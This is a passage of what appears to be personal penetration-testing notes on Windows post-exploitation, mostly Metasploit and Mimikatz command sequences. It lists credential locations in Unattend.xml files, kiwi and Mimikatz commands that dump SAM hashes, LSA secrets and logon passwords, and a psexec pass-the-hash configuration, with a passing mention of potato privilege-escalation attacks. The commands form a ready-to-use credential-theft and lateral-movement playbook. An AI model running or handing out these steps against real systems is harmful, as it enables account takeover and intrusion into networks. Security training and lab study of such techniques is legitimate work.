 ***IF YOU DONT FIND ANY PRIVILAGED TOKENS IN BOTH DELEGATION TOKENS AND IMPERSONANTION TOKENS THAN YOU HAVE TO USE THE POTATO ATTACK***

#### Searching for Passwords In Windows Configuration Files:

***YOU NEED ELIVATED PRIVILEGES TO DUMP HASHES***

```Shell
C:\\Windows\Panther\Unattend.xml >> in base64
C:\\Windows\Panther\Autounattend.xml
```

> These are the configuration files that contain the user accounts and their passwords along side system configuration. In unattend the passwords are stored in base64.

#### Dumping hashes with Mimikatz:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.


```msfconsole
load kiwi
?
creds_all
lsa_dump_sam
lsa_dump_secrets
```

> Dumping passwords hashes using `kiwi`.

```msfconsole
upload usr/share/windows-resources/mimikatz/mimikatz.exe
shell
dir
mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords
```

> Command can be used to upload the `mimikatz.exe` file and then run it in the windows shell.

#### Pass-The-Hash:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold and after getting the hashes from the kiwi module. Make sure to make a file to store all the hashes in it.


```msfconsole
use exploit/windows/smb/psexec
show options
set LPORT <some-new-port>
set RHOST <ip-address>
set SMBUser Administrator <any-other-user-can-be-used>
set SMBPass <NTLM-HASH:LM-HASH>
set target Native\ upload
exploit
```
